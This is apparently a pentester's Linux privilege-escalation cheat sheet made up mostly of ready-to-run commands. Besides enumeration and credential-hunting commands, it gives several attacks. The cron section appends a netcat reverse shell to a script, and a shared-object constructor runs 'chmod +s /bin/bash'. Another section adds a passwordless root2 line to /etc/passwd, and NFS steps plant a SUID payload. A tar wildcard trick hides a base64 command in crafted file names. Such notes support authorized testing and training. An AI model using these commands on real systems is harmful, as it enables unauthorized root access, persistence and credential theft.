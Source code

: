# 🐧 Linux Privesc

!!! info ""
    [HackTricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html) 🔸 [InternalAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/)

## Enumeration

```shell
# user
id
whoami

# system
hostname

# net
ifconfig
ip a
ip route
route
routel
sudo tcpdump -i lo -A | grep "pass"

# connections
ss -ntplu
netstat -ntplu

# users
cat /etc/passwd

# OS info
cat /etc/issue
cat /etc/*release
uname -a

# processes
ps aux
# wide
ps auxww
# tree
ps axjf

# installed apps on system (debian-based)
dpkg -l

# find writable paths
find / -writable -type d 2>/dev/null

# list drives mounted at boot time 
cat /etc/fstab
mount
lsblk # show available disks

# list loaded kernel modules and get specific info to find an exploit
lsmod
/sbin/modinfo <module>
```

!!! tip
    🍪 Try to switch users using username as pass

## User trails

```shell
# env vars
env
# .bashrc config
cat .bashrc
watch -n 1 "ps -aux | grep pass"
```

## Interesting Files

```shell
# check history
history
cat ~/.*history | less

# config files
find /home/<user> -type f \( -name "*.txt" -o -name "*.conf" -o -name "*.ini" \) 2>/dev/null

# .ssh folder
find /home/<user> -type d -name ".ssh" 2>/dev/null

# kdbx files
find / -name "*.kdbx" 2>/dev/null
```

## Cron jobs

!!! tip
    🍪 Examine periodic processes with [pspy](https://github.com/DominicBreuker/pspy)

```shell
ls -lah /etc/cron*
# current user's jobs
crontab -l
# root user's jobs
sudo crontab -l

# inspect cron logs
grep "CRON" /var/log/syslog

# reverse shell to cron file
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> > /tmp/f" >> scripts/user_backups.sh 
```

## SUID/SGID/Sudo/Caps

!!! tip
    🍪 Check [GTFOBins](https://gtfobins.github.io/) for escaping the programs

```shell
# find programs and groups with bit
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null

# list capabilities
/usr/sbin/getcap -r / 2>/dev/null

# check sudo privs
sudo -l
```

### Path Hijacking

A SUID executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

Run `strings` on the file to look for strings of printable characters or `ltrace` to look for system calls.

```shell
strings <suidexecutable>
```

One line (`apache2`) suggests that the service executable is being called to start the webserver, however the full path of the executable (`/usr/sbin/service`) is not being used.

Create a malicious file in a writable path and call it like the file the SUID executable calls.

```shell
echo '/bin/bash -p' > /tmp/apache2
```

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid executable to gain a root shell:

```shell
export PATH=/tmp:$PATH

apache2
```

### Shared Object Injection

A SUID executable can be vulnerable to shared object injection.

First, execute the file and notice the missing object error.

If there is no feedback, run `strace` on the file and search the output for open/access calls and for **no such file** errors:

```shell
strace suid-so 2>&1 | grep -iE "open|access|no such file"
```

Note that the executable tries to load the `.config/libcalc.so` shared object within the home directory, but it cannot be found.
Create the **.config** directory for the `libcalc.so` file: `mkdir .config`

After knowing the path, compile a malicious code into a shared object at the location the **suid-so** executable is looking for:

```c
#include <stdlib.h>

__attribute__((constructor)) void make_setuid() {
    system("chmod +s /bin/bash");
}
```

```shell
gcc -shared -fPIC libcalc.c -o libcalc.so 
```

Execute `/bin/bash -p` to gain a root shell.

```shell
/bin/bash -p
```

## Weak file permissions

!!! info
    🐈‍⬛ Hashcat mode -> 1800

```shell
# check if /etc/shadow can be read and combine it with /etc/passwd to crack it
unshadow passwd shadow > passwords.txt
john --wordlist=<wordlist> passwords.txt

# check if /etc/shadow is writable and put a new root hash
mkpasswd -m sha-512 <newpassword>
openssl passwd -6 <newpassword>

# check if /etc/passwd is writable and put a new root hash
openssl passwd <newpassword>
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## Kernel exploits

```shell
cat /etc/issue
uname -r
arch

# find a public exploit
searchsploit <name>
```

## Automated Scripts

> [linPEAS.sh](https://github.com/peass-ng/PEASS-ng?tab=readme-ov-file)

> [Linux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2)

## NFS

```shell
# mountable shares
cat /etc/exports
showmount -e <ip>

# mount a share
mkdir /tmp/share
mount -o rw <ip>:<share> /tmp/share

# using Kali's root user, generate a payload and save it to the mounted share
# using Kali's root user, make the file executable and set the SUID permission:
chmod +xs share/shell.elf

# on the victim, as the low privileged user, execute the file to gain a root shell:
/<share_path>/shell.elf
```

## Tar Wildcard

A script that uses tar with a wildcard ( * ) is vulnerable to arbitrary command execution via maliciously crafted checkpoint files in the target directory.

```shell
echo -n 'chmod +s /bin/bash' | base64
> Y2htb2QgK3MgL2Jpbi9iYXNo

touch -- "--checkpoint=1"
touch -- '--checkpoint-action=exec="echo Y2htb2QgK3MgL2Jpbi9iYXNo | base64 -d | bash"'
```
